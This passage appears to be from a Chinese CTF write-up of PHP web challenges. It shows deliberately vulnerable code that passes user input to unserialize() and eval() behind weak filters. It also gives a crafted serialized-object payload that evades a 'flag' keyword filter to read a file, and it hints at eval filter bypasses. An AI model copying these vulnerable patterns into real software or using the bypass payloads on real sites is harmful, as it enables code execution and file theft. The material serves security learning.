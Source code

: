 ```php
        $obj = new logger($this->weblogfile);
    }

    public function waf($str){
        $str=preg_replace("/[<>*#'|?\n ]/","",$str);
        $str=str_replace('flag','',$str);
        return $str;
    }

    function __destruct(){
        echo "this is destruct";
    }

}

$log = $_GET['log'];
$log = preg_replace("/[<>*#'|?\n ]/","",$log);
$log = str_replace('flag','',$log);
$log_unser = unserialize($log);

?>

<html>
<body>
<p><br/>昨天晚上因为14级大风停电了.</p>
</body>
</html>
```

第一看看到**weblog**中的`cat /flag`，马上就构造了一个**logger**对象去创建一个**weblog**实例，然后发现是假输出...那就是用**readfile**去打了，这里对flag有过滤，双写或者大写S绕过都可以。

`?log=O:6:"weblog":1:{s:10:"weblogfile";S:5:"/\66lag";}`

### hate_php

源码：

```php
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if(preg_match("/[A-Za-z0-9_$@]+/",$code)){
        die('fighting!'); 
    }
    eval($code);
}
```

看过p神文章的话对这题肯定不陌生，过滤了**$**的话，那能考虑的差不多只有取反和通配符匹配了。
